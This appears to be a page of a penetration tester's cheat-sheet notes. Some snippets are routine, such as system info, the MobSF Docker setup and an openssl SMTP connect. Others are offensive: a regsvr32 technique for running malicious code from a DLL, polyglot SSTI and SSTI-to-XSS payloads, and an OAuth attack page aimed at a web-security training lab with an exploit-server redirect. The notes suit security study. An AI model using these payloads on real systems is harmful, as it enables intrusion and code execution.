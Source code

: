 ```powershell
# - DLLRegisterServer()
# - DLLUnregisterServer()
# - DLLInstall()
# DLLUnregisterServer isn't really required, and DLLInstall is where you should place you malicious code
# then run with:
regsvr32.exe /i Benign.dll
```
### Get Computer Info with PowerShell
```powershell
(Get-ComputerInfo).PSObject.Properties | ForEach { "Property={0}, Value={1}" -f $_.Name, $_.Value }
```
### Polyglot SSTI Payload
```
${{<%[%'"}}%\.
```
### MobSF Docker Setup
```
docker pull opensecurity/mobile-security-framework-mobsf:latest
docker run -it -p 8000:8000 opensecurity/mobile-security-framework-mobsf
```
### Oauth Configuration Endpoints
```
https://[authorizaion_server]/.well-known/oauth-authorization-server
https://[authorizaion_server]/.well-known/openid-configuration
```
### SSL/TLS SMTP Connect with OpenSSL
```
openssl s_client -starttls smtp -connect <server>:567
```
### SSTI to XSS Payload
```
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```
### JavaScript HTTP Request Example Using Fetch API
```javascript
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
</head>
<body>
  <script>
    fetch('https://oauth-acea1fd11f1bade4c0ffb7f702b100b3.web-security-academy.net/auth?' + new URLSearchParams({
      client_id:'w7dk53nyaiosziewu4hzb',
      redirect_uri:'https://exploit-ac2d1f401f56adaec08db72901de00e4.web-security-academy.net/callback',
      response_type:'code',
      scope:'openid profile email'
    }));
  </script>
</body>
</html>
```
### Recursively Download Files From SMB Directory with SMBclient
```
smbclient //10.10.10.10/Share
```